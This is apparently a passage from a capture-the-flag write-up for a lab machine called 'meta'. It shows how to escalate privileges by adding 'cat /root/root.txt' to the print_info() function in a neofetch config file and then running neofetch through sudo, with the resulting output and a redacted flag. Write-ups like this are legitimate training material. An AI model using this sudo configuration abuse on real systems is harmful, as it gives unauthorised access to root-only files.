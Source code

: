 ### Alternative approach to obtain root flag
Another alternative approach to obtain the root flag is to use ```cat /root/root.txt``` instead of a reverse shell and add it to the print_info() function in the config.conf file.

```
# See this wiki page for more info:
# https://github.com/dylanaraps/neofetch/wiki/Customizing-Info
print_info() {
    cat /root/root.txt
    info title 
    info underline
```

This will then print out the root flag when we execute the ```sudo /usr/bin/neofetch \"\"``` command
```
thomas@meta:~/.config/neofetch$ sudo /usr/bin/neofetch \"\"
<Redacted root flag>
    ,g$$$$$$$$$$$$$$$P.       root@meta 
  ,g$$P"     """Y$$.".        --------- 
 ,$$P'              `$$$.     OS: Debian GNU/Linux 10 (buster) x86_64 
',$$P       ,ggs.     `$$b:   Host: VMware Virtual Platform None 
`d$$'     ,$P"'   .    $$$    Kernel: 4.19.0-17-amd64 
 $$P      d$'     ,    $$P    Uptime: 33 mins 
 $$:      $$.   -    ,d$$'    Packages: 495 (dpkg) 
 $$;      Y$b._   _,d$P'      Shell: bash 5.0.3 
 Y$$.    `.`"Y$$$$P"'         CPU: AMD EPYC 7401P 24- (2) @ 2.000GHz 
 `$$b      "-.__              GPU: VMware SVGA II Adapter 
  `Y$$                        Memory: 107MiB / 1994MiB 
   `Y$$.
     `$$b.                                            
       `Y$$b.
          `"Y$b._
```
